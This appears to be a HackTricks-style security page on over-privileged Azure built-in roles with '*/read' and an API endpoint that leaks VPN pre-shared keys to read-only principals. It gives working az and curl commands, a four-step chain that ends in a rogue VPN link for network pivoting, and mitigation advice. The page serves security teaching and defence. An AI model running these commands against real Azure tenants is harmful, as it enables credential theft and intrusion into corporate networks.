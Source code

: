 # Az - Over-Privileged RBAC Roles & VPN PSK Leak

{{#include ../../banners/hacktricks-training.md}}

## Over-Privileged Built-In Roles (*/read)

Azure built-in roles grant permissions through the `actions` array in a role definition. Generic roles (e.g., **Reader**) include a wildcard `*/read` action, granting read access across *all* resource providers. Unexpectedly, several service-specific built-in roles also include this `*/read`, leading to over-privileged identities.

Common affected roles (among others):

- Log Analytics Reader / Contributor
- App Compliance Automation Reader / Administrator
- Managed Applications Reader / Contributor / Operator
- Monitoring Reader / Contributor
- Resource Policy Contributor

With `*/read`, an attacker can:
- **Steal credentials**: Read Automation Account runbooks, deployment scripts, web app source and environment variables containing secrets.
- **Discover sensitive data**: Enumerate storage accounts, container registries, databases, backups, resource locks.
- **Plan further attacks**: List role assignments, diagnostics settings, NSGs, public IPs, virtual network gateways, Key Vault names.

### Enumerate Over-Privileged Roles

Use the Azure CLI to find roles with a `*/read` permission:
```bash
az role definition list \
  --query "[?permissions[?contains(actions, '*/read')]].{Name:roleName, Id:id}"
```
Assign one of these roles (or compromise a principal with it) to obtain broad read access.

## HTTP Method-Based Permission Enforcement

Azure enforces read vs sensitive operations by HTTP method:
- **GET** requests require only `*/read` permissions.
- **POST** requests (even with empty body) gate more sensitive APIs behind explicit action permissions.

Validate enforcement with a non-existent endpoint:

```bash
# GET -> 404 Not Found (read allowed)
curl -i -X GET \
  "https://management.azure.com/subscriptions/0000/resourceGroups/rg/providers/Microsoft.Network/nonexistent?api-version=2024-07-01" \
  -H "Authorization: Bearer $TOKEN"

# POST -> 403 Forbidden (read-only denied)
curl -i -X POST \
  "https://management.azure.com/subscriptions/0000/resourceGroups/rg/providers/Microsoft.Network/nonexistent?api-version=2024-07-01" \
  -H "Authorization: Bearer $TOKEN"
```

## VPN Gateway PSK Leak

A misimplemented VPN shared key endpoint uses **GET**, exposing the pre-shared key (PSK) to any principal with `*/read`:

```bash
GET https://management.azure.com/subscriptions/{sub}/resourceGroups/{rg}/providers/Microsoft.Network/connections/{conn}/sharedKey?api-version=2024-07-01
```

```bash
curl -sS \
  -H "Authorization: Bearer $TOKEN" \
  "https://management.azure.com/subscriptions/$SUB/resourceGroups/$RG/providers/Microsoft.Network/connections/$CONN/sharedKey?api-version=2024-07-01"
# Returns: { "value": "<PSK>" }
```

## Full Exploit Chain

1. Compromise or assign a low-privilege identity one of the affected service-specific roles.
2. Enumerate resources and secrets via `*/read` to locate the VPN connection name.
3. Issue the `GET .../sharedKey` request to retrieve the PSK.
4. Configure a rogue Site-to-Site VPN link using the PSK to pivot into on-premises and cloud networks.

## Mitigations & Recommendations

- **Avoid affected built-in roles**: Replace with custom least-privilege roles listing only required actions.
- **Limit role scope**: Assign roles to specific resource groups or individual resources, not broad subscriptions.
- **Audit role assignments**: Continuously review assignments; enforce just-in-time and just-enough-access principles.

## References

- Azure's Role Roulette: How Over-Privileged Roles and API Vulnerabilities Expose Enterprise Networks - https://www.token.security/blog/azures-role-roulette-how-over-privileged-roles-and-api-vulnerabilities-expose-enterprise-networks
- Azure VPN Gateway roles & permissions - https://learn.microsoft.com/en-us/azure/vpn-gateway/roles-permissions
- Binary Security: Azure API Management Reader Privesc - https://binarysecurity.no/posts/2024/11/apim-privesc

{{#include ../../banners/hacktricks-training.md}}